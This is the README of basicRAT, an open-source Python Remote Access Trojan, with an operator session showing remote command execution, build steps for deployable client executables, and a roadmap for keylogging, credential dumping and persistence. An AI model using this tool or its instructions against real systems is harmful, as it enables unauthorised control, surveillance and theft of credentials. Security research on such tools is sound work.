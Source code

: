 # basicRAT

This is a Python RAT (Remote Access Trojan), basicRAT was created to maintain a clean design full-featured Python RAT. Currently a work in progress and still being hacked on.

**Disclaimer: This RAT is for research purposes only, and should only be used on authorized systems. Accessing a computer system or network without authorization or explicit permission is illegal.**

## Features
* Cross-platform
* AES CBC encrypted C2 with D-H exchange
* Reverse shell
* File upload/download
* Standard utilities (wget, unzip)
* System survey

## Usage
```
$ python basicRAT_server.py --port 1337

 ____    ____  _____ ____   __  ____    ____  ______      .  ,
|    \  /    |/ ___/|    | /  ]|    \  /    ||      |    (\;/)
|  o  )|  o  (   \_  |  | /  / |  D  )|  o  ||      |   oo   \//,        _
|     ||     |\__  | |  |/  /  |    / |     ||_|  |_| ,/_;~      \,     / '
|  O  ||  _  |/  \ | |  /   \_ |    \ |  _  |  |  |   "'    (  (   \    !
|     ||  |  |\    | |  \     ||  .  \|  |  |  |  |         //  \   |__.'
|_____||__|__| \___||____\____||__|\_||__|__|  |__|       '~  '~----''
         https://github.com/vesche/basicRAT

basicRAT server listening for connections on port 1337.

[None] basicRAT> help

client <id>         - Connect to a client.
clients             - List connected clients.
download <files>    - Download file(s).
help                - Show this help menu.
kill                - Kill the client connection.
persistence         - Apply persistence mechanism.
quit                - Exit the server and end all client connections.
rekey               - Regenerate crypto key.
run <command>       - Execute a command on the target.
scan <ip>           - Scan top 25 ports on a single host.
survey              - Run a system survey.
unzip <file>        - Unzip a file.
upload <files>      - Upload files(s).
wget <url>          - Download a file from the web.

[None] basicRAT> clients
ID - Client Address
 0 - 127.0.0.1

[None] basicRAT> client 0

[0] basicRAT> run uname -a
Linux sandbox3 4.8.13-1-ARCH #1 SMP PREEMPT Fri Dec 9 07:24:34 CET 2016 x86_64 GNU/Linux
```

## Build a stand-alone executable
Keep in mind that before building you will likely want to modify both the `HOST` and `PORT` variables located at the top of `basicRAT_client.py` to fit your needs.

On Linux you will need Python 2.x, [PyInstaller](http://www.pyinstaller.org/), and pycrypto. Then run something like `pyinstaller2 --onefile basicRAT_client.py` and it should generate a `dist/` folder that contains a stand-alone ELF executable.

On Windows you will need Python 2.x, PyInstaller, pycrypto, pywin32, and pefile. Then run something like `C:\path\to\PyInstaller-3.2\PyInstaller-3.2\pyinstaller.py --onefile basicRAT_client.py` and it should generate a `dist/` folder that contains a stand-alone PE (portable executable).

## Todo
* Client binary generation tool (cross-platform)
  * Pyinstaller
  * Switch options for remote IP, port, etc
* Persistance (cross-platform)
  * Windows: Registry keys, WMIC, Startup Dir
  * Linux: Cron jobs, services, modprobe
* Common C2 Protocols (HTTP, DNS)
* Privilege Escalation (getsystem-esque, dirty cow)
* Screenshot
* Keylogger
* Expand toolkit (unrar, sysinfo)
* Scanning utility (probe scan / ping sweep, scanning subnet)
* Password dumping (mimikatz / gsecdump)
* Tunneling
* Client periodic connection attempt
* Accept connection from multiple clients

## Authors
* Austin Jackson [@vesche](https://github.com/vesche)
* Skyler Curtis [@deadPix3l](https://github.com/deadPix3l)

## Thanks
* [@bozhu](https://github.com/bozhu), AES-GCM Python implementation.
* [@reznok](https://github.com/reznok), multiple client connection prototype.

## Other open-source Python RATs for Reference
* [ahhh/Reverse_DNS_Shell](https://github.com/ahhh/Reverse_DNS_Shell)
* [sweetsoftware/Ares](https://github.com/sweetsoftware/Ares)
